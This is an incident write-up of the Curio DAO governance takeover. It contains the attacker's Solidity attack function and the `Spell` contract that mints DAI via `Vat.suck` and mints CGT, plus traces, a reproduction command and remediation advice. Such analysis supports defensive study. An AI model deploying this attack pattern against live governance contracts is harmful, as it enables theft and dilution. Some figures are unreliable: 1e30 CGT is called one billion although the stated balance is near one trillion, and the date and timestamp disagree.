



# Curio Governance Token (CGT) Exploit — DAO Governance Takeover via Fake `DSChief` Vote + Timelocked `vat.suck` / `DSToken.mint`

> **Vulnerability classes:** vuln/governance/proposal-manipulation

> **Reproduction:** PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable sources: [DSToken.sol](sources/DSToken_F56b16/DSToken.sol)
> (token + DSAuth/DSMath), [UniswapV2Router02.sol](sources/UniswapV2Router02_Dc6844/Users_falconfree_Projects_Curio_capital-dex-core_contracts_uniswap-v2_UniswapV2Router02.sol),
> [UniswapV2Pair.sol](sources/UniswapV2Pair_857058/UniswapV2Pair.sol).

---

## Key info

| | |
|---|---|
| **Loss** | Unauthorized mint of **1,000,000,000 CGT** (≈ the entire intended supply) **+ 1,000,000,000 DAI** drawn from MakerDAO's `Vat`. Of the minted CGT the attacker laundered a slice through thin Uniswap pools into ~**18,669 DAI** and ~**25.96 WETH** in this fork; the rest stayed as freshly-minted CGT. |
| **Vulnerable contract** | Curio DAO governance stack — `DSChief` [`0x579A3244f38112b8AAbefcE0227555C9b6e7aaF0`](https://etherscan.io/address/0x579A3244f38112b8AAbefcE0227555C9b6e7aaF0) + `DSPause` [`0x1e692eF9cF786Ed4534d5Ca11EdBa7709602c69f`](https://etherscan.io/address/0x1e692eF9cF786Ed4534d5Ca11EdBa7709602c69f) (MakerDAO-style governance). `DSToken` (CGT) [`0xF56b164efd3CFc02BA739b719B6526A6FA1cA32a`](https://etherscan.io/address/0xF56b164efd3CFc02BA739b719B6526A6FA1cA32a). |
| **Victim pool** | Curio DEX `UniswapV2Router02` [`0xDc6844cED486Ec04803f02F2Ee40BBDBEf615f21`](https://etherscan.io/address/0xDc6844cED486Ec04803f02F2Ee40BBDBEf615f21) and its CGT/x pairs. |
| **Attacker EOA** | `0xdaaa6294c47b5743bdafe0613d1926ee27ae8cf5` |
| **Attacker contract** | `0x1e791527aea32cddbd7ceb7f04612db536816545` |
| **Attack tx** | [`0x4ff4028b03c3df468197358b99f5160e5709e7fce3884cc8ce818856d058e106`](https://etherscan.io/tx/0x4ff4028b03c3df468197358b99f5160e5709e7fce3884cc8ce818856d058e106) |
| **Chain / block / date** | Ethereum mainnet / **19,498,910** / **March 17, 2024** (tx ts `1711216391`) |
| **Compiler** | `DSToken` v0.5.12, optimizer 1 / 200 runs; PoC compiled with Solc 0.8.34 |
| **Bug class** | DAO governance takeover — cheap voting-power acquisition into a MakerDAO-style `DSChief`/`DSPause` to pass an arbitrary timelocked spell that is `auth` on the token and on MakerDAO's `Vat`. |

---

## TL;DR

Curio reused MakerDAO's governance primitives (`DSChief` voting + `DSPause` timelock)
but backed `DSChief` voting weight with CGT, **a token that had essentially no
liquid market** at the time of the attack. With only ~**20 CGT** (`20 ether`, the
amount seeded in the PoC and consistent with the on-chain `lock`/`IOU` mint of
`2e19`), the attacker could out-vote every existing delegate, `lift()` themselves
as the active `hat`, and then schedule + execute an arbitrary `DSPause` spell
in the **same transaction** (the delay was set to `block.timestamp + 0`).

The spell, executed via `DSPause.exec` → `DSAuthority.canCall == true`, called
two privileged functions the `hat`/`pause` is `auth` for:

1. `Vat.suck(self, self, 1e54 RAD)` → `DaiJoin.exit(user, 1e27)` → minted
   **1,000,000,000 DAI** straight out of MakerDAO's accounting (`1e54 RAD / 1e45 = 1e9 DAI`).
2. `DSToken.mint(user, 1e30)` → minted **1,000,000,000 CGT** directly into the
   attacker's wallet ([DSToken.sol:175-178](sources/DSToken_F56b16/DSToken.sol)).

The attacker then routed slices of the freshly minted CGT through eight shallow
Curio DEX pairs (CGT→WETH, CGT→DAI, CGT→XCHF, CGT→1INCH, CGT→UNI, CGT→LINK,
CGT→SKL, CSC→WETH) and a Uniswap-V3 CGT→WETH leg, plus four V3 hops converting
the proceeds to DAI. End of fork state: attacker holds **999,100,000,060 CGT**,
**18,669 DAI**, and **25.96 WETH**.

The root flaw is not a code bug in `DSToken` itself — `mint`/`burn` correctly
require `auth`. The flaw is **governance design**: an `auth`-gated privileged
operation (token + MakerDAO `Vat` minting) was placed behind a voting system
whose "stake" was an illiquid token, so the cost to acquire a winning vote was
near-zero.

---

## Background — the Curio governance stack

Curio Governance Token (`CGT`, `DSToken` at `0xF56b…`) is an ERC20 with
governance-grade mint/burn, controlled by a DSAuthority ([DSToken.sol:175-178](sources/DSToken_F56b16/DSToken.sol)):

```solidity
function mint(address guy, uint wad) public auth stoppable {
    balanceOf[guy] = add(balanceOf[guy], wad);
    totalSupply = add(totalSupply, wad);
    emit Mint(guy, wad);
}
```

`auth` ([DSToken.sol auth.sol:39-49](sources/DSToken_F56b16/DSToken.sol)) defers to a
`DSAuthority` whose `canCall` decides who may mint:

```solidity
function isAuthorized(address src, bytes4 sig) internal view returns (bool) {
    if (src == address(this))      return true;
    else if (src == owner)         return true;
    else if (authority == DSAuthority(0)) return false;
    else                           return authority.canCall(src, address(this), sig);
}
```

Curio wired that authority through a **MakerDAO-style governance chain**:

- **`DSChief`** (`0x579A…`) — approval voting. Locking CGT (`lock`) issues voting
  weight; `vote(slate)` + `lift(addr)` elects the `hat`. The `hat` is the only
  address that `canCall` returns `true` for on privileged sigs.
- **`DSPause`** (`0x1e69…`) — a timelocked proxy (`pause`). `plot(usr, tag, fax, eta)`
  schedules a call; `exec(...)` runs it after the delay. The inner `exec`
  `delegatecall`s the spell, and crucially the spell runs *as `DSPause`'s
  paused authority*, so it is `auth` on everything the governance hat authorizes.
- Curio had additionally granted that governance authority the right to call
  **MakerDAO's `Vat.suck`** (unbacked DAI minting) and to **`mint` CGT**.

In MakerDAO proper this is safe because MKR has a deep, attack-resistant market
and the pause delay is long. Curio replicated the *machinery* without the
*economic assumptions*: CGT was thinly traded, so the cost to buy a controlling
vote was negligible, and (in this attack) the pause delay was bypassed by setting
`eta = block.timestamp + 0` and calling `plot` then `exec` in the same block.

---

## The vulnerable code

### 1. `DSToken.mint` — privileged, and the governance `hat` is privileged

Real snippet from [sources/DSToken_F56b16/DSToken.sol](sources/DSToken_F56b16/DSToken.sol)
(the token that had 1e30 CGT minted into the attacker's wallet):

```solidity
function mint(address guy, uint wad) public auth stoppable {
    balanceOf[guy] = add(balanceOf[guy], wad);
    totalSupply = add(totalSupply, wad);
    emit Mint(guy, wad);
}
```

The trace confirms the `auth` gate passes because the caller (`DSPause`'s inner
`exec`, running the spell via `delegatecall` so `msg.sender` is the paused
authority) is the recognized authority — the static call
`DSAuthority.canCall(DSPause, DSToken, 0x40c10f19)` returns `1`:

```
[2662] 0xAbD54e07…::canCall(0x20EBbd71…, DSToken, 0x40c10f19) [staticcall]
    └─ ← [Return] 0x00…01
[15593] DSToken::mint(ContractTest, 1000000000000000000000000000000 [1e30])
    ├─ emit Mint(guy: ContractTest, wad: 1e30)
```

### 2. The spell the attacker scheduled through the timelock

From [test/CGT_exp.sol:259-271](test/CGT_exp.sol) (the `Spell` contract the
attacker deployed and ran through `DSPause`):

```solidity
contract Spell {
    function act(address user, IMERC20 cgt) public {
        IVat vat = IVat(0x8B2B0c101adB9C3654B226A3273e256a74688E57);
        IJoin daiJoin = IJoin(0xE35Fc6305984a6811BD832B0d7A2E6694e37dfaF);

        vat.suck(address(this), address(this), 10 ** 9 * 10 ** 18 * 10 ** 27); // 1e54 RAD = 1B DAI
        vat.hope(address(daiJoin));
        daiJoin.exit(user, 10 ** 9 * 1 ether);                                // mint 1B DAI to user

        cgt.mint(user, 10 ** 12 * 1 ether);                                   // mint 1B CGT
    }
}
```

The trace shows both `suck` and the `DaiJoin`-driven DAI mint, then the CGT mint
([output.txt:1672-1722](output.txt)):

```
[78964] Vat::suck(0x20EBbd71…, 0x20EBbd71…, 1000000000000000000000000000000000000000000000000000000 [1e54])
…
[57201] DaiJoin::exit(ContractTest, 1000000000000000000000000000 [1e27])
    └─ Vat::move(0x20EBbd71…, DaiJoin, 1e54)
    └─ DAI::mint(ContractTest, 1e27)        // 1,000,000,000 DAI
[15593] DSToken::mint(ContractTest, 1000000000000000000000000000000 [1e30])  // 1,000,000,000 CGT
```

### 3. The governance takeover — buying the `hat` for ~20 CGT

From [test/CGT_exp.sol:141-160](test/CGT_exp.sol):

```solidity
function attack() public {
    cgt.approve(address(chief), type(uint256).max);
    chief.lock(20 ether);                       // lock 20 CGT → 20 voting weight
    address[] memory yays = new address[](1);
    yays[0] = address(this);
    chief.vote(yays);                           // vote for self
    chief.lift(address(this));                  // become the hat
    spell = new Spell();
    bytes32 tag; assembly { tag := extcodehash(spelladdr) }
    uint256 delay = block.timestamp + 0;        // zero delay
    bytes memory sig = abi.encodeWithSignature("act(address,address)", address(this), address(cgt));
    pause.plot(address(spell), tag, sig, delay);// schedule
    pause.exec(address(spell), tag, sig, delay);// execute, same tx
    _swap0(); _swap1();
}
```

The trace confirms `lock(2e19)` issues the matching voting weight and `lift`
rotates the `hat` (slot 12) to the attacker in a single transaction
([output.txt:1608-1655](output.txt)).

---

## Root cause — why it was possible

The exploit composes two governance-design failures, not a token-code bug:

1. **Voting weight was backed by an illiquid token.** `DSChief` derives voting
   power from locked CGT. With CGT having no meaningful market depth, the cost
   to lock more CGT than every honest delegate combined was effectively zero
   (here: **20 CGT**). Whoever locks the most CGT becomes the `hat`. That
   collapses MakerDAO's central economic assumption (deep, attack-resistant MKR
   market) while reusing its exact voting code.

2. **The pause delay was not a real barrier.** The attacker set `eta =
   block.timestamp + 0` and called `plot` and `exec` in the same transaction, so
   the timelock offered no observation window. `DSPause` only checks `eta ≤
   block.timestamp` at `exec` time; with `eta = now`, the "delay" is zero. Any
   on-chain observer had no chance to react.

With the `hat` and the zero-delay `exec`, the spell runs as the governance
authority and is therefore `auth` on (a) Curio's `DSToken.mint` and (b) — because
Curio had wired its governance into a MakerDAO `Vat` `hope`/`suck` chain — on
`Vat.suck`. One `suck` of `1e54 RAD` and one `DSToken.mint` of `1e30` later, the
attacker has 1B DAI and 1B CGT.

The token code is functioning exactly as designed: `mint` is `auth`, and the
`auth` check correctly consulted the `DSAuthority`. The vulnerability is that
**the authority was conquerable for ~free**, and that authority held god-mode
over both the protocol's own token supply and a MakerDAO vault.

---

## Preconditions

- CGT voting weight (`DSChief.deposits`) is low enough that locking a trivial
  amount of CGT outvotes all existing slates. At fork block 19,498,910 this was
  true — the attacker needed only ~20 CGT.
- The attacker can hold (or flash-source) that seed CGT. The PoC `deal`s 80 CGT;
  on-chain the attacker obtained it cheaply given the empty order books.
- `DSPause` permits `eta = block.timestamp` (zero effective delay). This is a
  configuration/governance choice; the attack shows it was enabled.
- Curio governance is `auth` on `DSToken.mint` and on the MakerDAO `Vat` used by
  its `DaiJoin`. Both were true — `canCall` returned `1` for both privileged
  sigs in the trace.

---

## Attack walkthrough (with on-chain numbers from the trace)

All values are read directly from [output.txt](output.txt). Token decimals are 18
unless noted.

| # | Step | Concrete value (from trace) | Effect |
|---|------|----------------------------|--------|
| 0 | **Seed** — attacker obtains a trivial amount of CGT | `deal(CGT, this, 80 ether)` (PoC); on-chain ≈ 20 CGT is enough | Working balance to lock into `DSChief`. |
| 1 | **Lock CGT for voting weight** — `chief.lock(20 ether)` | `lock(2e19)`; mints 20 `IOU`, deposits = 20 CGT weight ([output.txt:1608-1628](output.txt)) | Attacker now has voting weight. |
| 2 | **Vote for self** — `chief.vote([self])` | `vote` emits `Etch`; deposits credited to attacker's slate ([output.txt:1629-1646](output.txt)) | Attacker's slate has weight. |
| 3 | **Become the hat** — `chief.lift(self)` | slot 12 (the `hat`) changes from `0x2615…5196` → attacker ([output.txt:1647-1655](output.txt)) | Attacker is now the governance authority. |
| 4 | **Deploy Spell** | `new Spell()` @ `0x5615…b72f` ([output.txt:1656](output.txt)) | Arbitrary code to run as the hat. |
| 5 | **Schedule with zero delay** — `pause.plot(spell, tag, sig, block.timestamp+0)` | `plot(…, 1711216391)`; `canCall(attacker, DSPause, plot)=1` ([output.txt:1658-1668](output.txt)) | Spell queued, executable same block. |
| 6 | **Execute the spell same-tx** — `pause.exec(...)` → inner `exec` → `Spell.act` via `delegatecall` | ([output.txt:1669-1725](output.txt)) | Spell runs as governance authority. |
| 6a | └ `Vat.suck(self, self, 1e54 RAD)` | `suck(..., 1e54)`; Vat debt slot grows by `1e54` RAD | 1B DAI of unbacked debt created. |
| 6b | └ `DaiJoin.exit(attacker, 1e27)` → `DAI.mint(attacker, 1e27)` | `exit(attacker, 1e27)`; `Transfer(0→attacker, 1e27)` ([output.txt:1693-1715](output.txt)) | **1,000,000,000 DAI** minted to attacker. |
| 6c | └ `DSToken.mint(attacker, 1e30)` | `canCall(DSPause, CGT, 0x40c10f19)=1`; `Mint(attacker, 1e30)` ([output.txt:1716-1723](output.txt)) | **1,000,000,000 CGT** minted to attacker. |
| 7 | **Swap CGT→WETH** (Curio DEX) | in `1e26` CGT, out `1.8233e18` WETH; pool reserves 1.826e18 WETH / 1.576e23 CGT → 2.883e15 / 1.001e26 ([output.txt:1741-1787](output.txt)) | First laundering hop; ~1.82 WETH. |
| 8 | **Swap CGT→DAI** (Curio DEX) | in `1e26` CGT, out `1.0956e22` DAI ([output.txt:1793-1832](output.txt)) | ~10,956 DAI. |
| 9 | **Swap CGT→XCHF** | in `1e26` CGT, out `2.6596e21` XCHF ([output.txt:1845-1892](output.txt)) | ~2,660 XCHF. |
| 10 | **Swap CGT→1INCH** | in `1e26` CGT, out `6.8873e21` 1INCH ([output.txt:1905-1944](output.txt)) | ~6,887 1INCH. |
| 11 | **Swap CGT→UNI** | in `1e26` CGT, out `7.9833e19` UNI ([output.txt:1957-1996](output.txt)) | ~79.8 UNI. |
| 12 | **Swap CGT→LINK** | in `1e26` CGT, out `1.2444e19` LINK ([output.txt:2009-2048](output.txt)) | ~12.4 LINK. |
| 13 | **Swap CGT→SKL** | in `1e26` CGT, out `1.9706e21` SKL ([output.txt:2061-2117](output.txt)) | ~1,971 SKL. |
| 14 | **Swap CSC→WETH** (Curio DEX, related token) | in `1e26` CSC, out `1.9021e17` WETH ([output.txt:2130-2169](output.txt)) | ~0.19 WETH. |
| 15 | **Swap CGT→IXS** (3-hop, CGT→mid→IXS) | in `1e26` CGT, out `5.6081e20` IXS ([output.txt:2182-2253](output.txt)) | ~560.8 IXS. |
| 16 | **Uniswap V3 CGT→WETH** | `exactInput`, in `1e26` CGT, out `2.3945e19` WETH ([output.txt:2268-2310](output.txt)) | ~23.9 WETH. |
| 17 | **V3 XCHF→WETH→DAI** | in `2.6596e21` XCHF → `2.8356e21` DAI ([output.txt:2313-2361](output.txt)) | +~2,836 DAI. |
| 18 | **V3 1INCH→WETH→DAI** | in `6.8873e21` 1INCH → `3.7034e21` DAI ([output.txt:2384-2427](output.txt)) | +~3,703 DAI. |
| 19 | **V3 UNI→WETH→DAI** | in `7.9833e19` UNI → `9.4653e20` DAI ([output.txt:2451-2489](output.txt)) | +~946 DAI. |
| 20 | **V3 LINK→WETH→DAI** | in `1.2444e19` LINK → `2.2738e20` DAI ([output.txt:2512-2549](output.txt)) | +~227 DAI. |
| **End** | Attacker balances | CGT **999,100,000,060**; DAI **18,669.354**; WETH **25.959** ([output.txt:1564-1566](output.txt)) | 1B CGT + 1B DAI minted; ~16.7k DAI + 26 WETH realized in-fork. |

> The laundered DAI/WETH numbers here are what the shallow Curio/Uni pools would
> give for the *first* 100M-CGT slices in this fork. The dominant damage is the
> unauthorized **1B CGT** and **1B DAI** mint in steps 6b–6c — the swaps are the
> exit liquidity, not the bug.

### Profit / loss accounting

| Item | Amount |
|---|---:|
| DAI minted via `Vat.suck` / `DaiJoin.exit` | +1,000,000,000 DAI |
| CGT minted via `DSToken.mint` | +1,000,000,000 CGT |
| Seed CGT spent on the attack (locked, recoverable via `free`) | ~20 CGT |
| Realized in-fork from CGT/CSC laundering (DAI + WETH equiv.) | +~16.7k DAI + ~26 WETH |
| **Net unauthorized value created** | **1B DAI + 1B CGT** (plus swap proceeds) |

The 1B DAI is drawn from MakerDAO's `Vat` as unbacked debt (`suck`), and the 1B
CGT dilutes every existing CGT holder to near-zero. Both are pure inflationary
theft — no user funds were "taken from a pool" in the AMM sense; the pools were
used only as exit ramps.

---

## Diagrams

### Sequence of the attack



### Governance-takeover state flow



### The `auth` chain that turns a cheap vote into a token+DAI mint



---

## Why each magic number

- **`20 ether` CGT locked** ([test/CGT_exp.sol:143](test/CGT_exp.sol)) — the
  amount needed to exceed all existing `DSChief` deposits at the fork block. The
  trace's `lock(2e19)` and matching `IOU` mint of `2e19` confirm this was a
  winning weight.
- **`eta = block.timestamp + 0`** ([test/CGT_exp.sol:154](test/CGT_exp.sol)) —
  makes the `DSPause` timelock expire "now," so `plot` and `exec` work in one tx.
  `1711216391` is the tx's `block.timestamp` in the trace.
- **`1e54` RAD in `Vat.suck`** — MakerDAO's `Vat` uses 45-decimal `RAD` (1 DAI =
  1e45 RAD). `1e9 * 1e18 * 1e27 = 1e54` RAD ⇒ `1e9` DAI of internal debt, which
  `DaiJoin.exit(user, 1e27)` converts to `1e9 * 1e18` = **1,000,000,000 DAI**.
- **`1e30` CGT in `DSToken.mint`** — `10**12 * 1 ether` = `1e30` with 18
  decimals ⇒ **1,000,000,000 CGT**.
- **`1e26` CGT per swap** ([test/CGT_exp.sol:163](test/CGT_exp.sol)) —
  `10**8 * 1 ether` = 100,000,000 CGT per hop, sliced across 8+ pools to avoid
  saturating any single thin pair.

---

## Remediation

1. **Do not back governance voting weight with an illiquid token.** Either (a)
   require voting weight to come from a deep, externally-priced asset (as
   MakerDAO effectively gets from MKR's market), or (b) cap any single delegate's
   weight, or (c) require a quorum measured in *market value*, not token count,
   so that capturing the hat costs real money. A token whose entire float can be
   outbid for ~20 units cannot secure `auth` over minting.
2. **Enforce a non-trivial, non-bypassable timelock.** `plot`/`exec` must reject
   `eta ≤ block.timestamp + MIN_DELAY` with `MIN_DELAY` on the order of hours to
   days. The attack worked because `eta = block.timestamp` was accepted. Any
   "emergency" zero-delay path must itself require a separate, higher-bar
   multi-sig.
3. **Separate "protocol token mint" authority from the governance hat.** Token
   minting should require a higher threshold (e.g., a multi-sig + timelock +
   per-mint cap), not be a unilateral power of whoever momentarily holds the
   `DSChief` hat. `DSToken.mint` being plain `auth` with no cap is the amplifier
   that turned a governance capture into infinite dilution.
4. **Revoke or scope MakerDAO `Vat` access.** Curio governance must not be
   `auth` on `Vat.suck`/`DaiJoin` for arbitrary amounts. If a MakerDAO vault
   integration is required, route it through a dedicated, bounded adapter with
   hard debt caps — never raw `suck` under governance control.
5. **Add an on-chain circuit breaker on `totalSupply` growth and on `Vat` debt.**
   Any single `mint` or `suck` above a configured rate should revert pending
   governance review. A 1B-token mint in one call is a red flag by definition.

---

## How to reproduce

```bash
_shared/run_poc.sh 2024-03-CGT_exp --mt testExploit -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block
  `19_498_910`, March 2024). `foundry.toml` ships `mainnet` pointing at Infura;
  swap in any archive-capable URL if `header not found` appears.
- Result: `[PASS] testExploit()`.

Expected tail:

```
Ran 1 test for test/CGT_exp.sol:ContractTest
[PASS] testExploit() (gas: 2503170)
Logs:
  [End] Attacker CGT after exploit: 999100000060.000000000000000000
  [End] Attacker dai after exploit: 18669.354038893441676322
  [End] Attacker weth after exploit: 25.958519201526709279
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 65.91s (64.05s CPU time)
```

---

*References: attack tx
[`0x4ff4028b…d058e106`](https://etherscan.io/tx/0x4ff4028b03c3df468197358b99f5160e5709e7fce3884cc8ce818856d058e106);
CurioDAO recovery post
[investcurio.medium.com](https://investcurio.medium.com/curiodaos-recovery-plan-1255427f35de).
Verbose Foundry trace in [output.txt](output.txt); PoC in [test/CGT_exp.sol](test/CGT_exp.sol).*
